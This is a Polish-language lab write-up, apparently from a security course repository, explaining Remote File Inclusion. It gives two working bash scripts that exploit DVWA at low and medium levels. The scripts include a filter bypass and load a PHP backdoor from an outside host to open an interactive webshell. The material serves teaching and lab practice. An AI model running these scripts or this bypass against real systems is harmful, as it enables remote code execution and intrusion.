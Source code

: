 # RFI - Remote File Inclusion
## Opis techniki
<blockquote>Remote File Inclusion (RFI) to technika ataku, w której atakujący wykorzystuje lukę w aplikacji webowej w celu załadowania przez nią plików z innych serwerów. 
  RFI występuje, gdy aplikacja dynamicznie dołącza pliki zewnętrzne na podstawie danych wejściowych dostarczonych przez użytkownika bez odpowiedniej walidacji i sanityzacji.
  
W ataku RFI atakujący zazwyczaj wstrzykuje adres URL wskazujący na złośliwy skrypt hostowany na zdalnym serwerze do podatnego parametru lub pola wejściowego aplikacji webowej. Gdy aplikacja przetwarza dane wejściowe, pobiera i dołącza określony zdalny plik, wykonując dowolny zawarty w nim kod.

  Konsekwencje udanego ataku RFI mogą obejmować:
  
* Wykonanie kodu: Atakujący może wykonać dowolny kod hostowany na zdalnym serwerze w kontekście podatnej aplikacji. Może to prowadzić do całkowitej kompromitacji systemu docelowego, nieautoryzowanego dostępu lub możliwości wykonywania złośliwych działań.
* Kradzież danych: Atakujący może wykorzystać RFI do uzyskania dostępu do poufnych danych, takich jak pliki konfiguracyjne, poświadczenia bazy danych lub inne poufne informacje przechowywane na serwerze docelowym.
* Instalacja backdoora: Dołączając zdalny skrypt, atakujący może utworzyć backdoora lub mechanizm zdalnego sterowania, umożliwiając mu utrzymanie stałego dostępu do zaatakowanego systemu i potencjalne dalsze wykorzystywanie go.</blockquote>

## DVWA labs

- [DVWA RFI #1 - Low](#dvwa-rfi-1---low)

- [DVWA RFI #2 - Medium](#dvwa-rfi-2---medium)

<br/>

## DVWA RFI #1 - Low
Na niskim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Brak filtrowania


#### Dane wejściowe:
| No. | Opis | Typ | Przykładowa wartość |
|------|-------------|------|---------------|
| 1 | DVWA base url | url | 10.10.10.10|
| 2 | PHP backdoor uri | uri | http://10.22.11.10:2541/rfi.php|
| 3 | nazwa parametru GET używana przez backdoor | string | cmd|

#### Skrypt w `bash` 

```bash
#!/bin/bash

# Function to display usage instructions
display_usage() {
  echo "Usage: $0 <base_url> <backdoor uri> <param name>"
  echo "Description: This script attempts to create a simple shell access using dvwa's rfi [low] vulnerability."
  echo "Arguments:"
  echo "  <base_url>      Base URL of the target application"
  echo "  <backdoor uri>  URI to the php file used to gain shell access"
  echo "  <param name>    GET parameter name used to send commands to the php backdoor"
}

# Check if the required number of arguments are provided
if [[ $# -ne 3 ]]; then
  display_usage
  exit 1
fi

get_cookie() {
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=low&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/low/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

send_cmd() {
  encoded=$(jq -nr --arg v "$input" '$v|@uri')
  curl -s -x "http://127.0.0.1:8080" -b dvwa.cookie "$1/vulnerabilities/fi/?page=$2&$3=$encoded"
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 || -z $3 ]]; then
  display_usage
  exit 1
fi

# Get cookie
get_cookie "$1"

while true; do
    read -p "\$ " input
    [[ $input == "exit" ]] && break
    send_cmd "$1" "$2" "$3" "$input"
done
```

#### Efekt działania skryptu:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/rfi_low.gif "Po uruchomieniu skrypt eksploituje RFI i tworzy interfejs do obsługi uruchomionego webshella")


#### Czyszczenie pozostałości po wykonaniu skryptu:
```bash
rm ./dvwa.cookie
```


<br/>

<br/>
<br/>

## DVWA RFI #2 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie polegające na wycinaniu `../`, `.."` oraz `http://` i `https://`


#### Dane wejściowe:
| No. | Opis | Typ | Przykładowa wartość |
|------|-------------|------|---------------|
| 1 | DVWA base url | url | 10.10.10.10|
| 2 | PHP backdoor uri | uri | http://10.22.11.10:2541/rfi.php|
| 3 | nazwa parametru GET używana przez backdoor | string | cmd|

#### Skrypt w `bash` 

```bash
#!/bin/bash

# Function to display usage instructions
display_usage() {
  echo "Usage: $0 <base_url> <backdoor uri> <param name>"
  echo "Description: This script attempts to create a simple shell access using dvwa's rfi [medium] vulnerability."
  echo "Arguments:"
  echo "  <base_url>      Base URL of the target application"
  echo "  <backdoor uri>  URI to the php file used to gain shell access"
  echo "  <param name>    GET parameter name used to send commands to the php backdoor"
}

# Check if the required number of arguments are provided
if [[ $# -ne 3 ]]; then
  display_usage
  exit 1
fi

get_cookie() {
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=medium&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/medium/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

send_cmd() {
  encoded=$(jq -nr --arg v "$input" '$v|@uri')
  curl -s -x "http://127.0.0.1:8080" -b dvwa.cookie "$1/vulnerabilities/fi/?page=$modified_url&$3=$encoded"
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 || -z $3 ]]; then
  display_usage
  exit 1
fi

# Get cookie
get_cookie "$1"

url="$2"
modified_url=${url/#http:\/\//hthttp:\/\/tp:\/\/}
modified_url=${modified_url/#https:\/\//hthttp:\/\/tps:\/\/}

while true; do
    read -p "\$ " input
    [[ $input == "exit" ]] && break
    send_cmd "$1" "$modified_url" "$3" "$input"
done
```

#### Efekt działania skryptu:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/rfi_medium.gif "Po uruchomieniu skrypt eksploituje RFI i tworzy interfejs do obsługi uruchomionego webshella")


#### Czyszczenie pozostałości po wykonaniu skryptu:
```bash
rm ./dvwa.cookie
```

<br/>
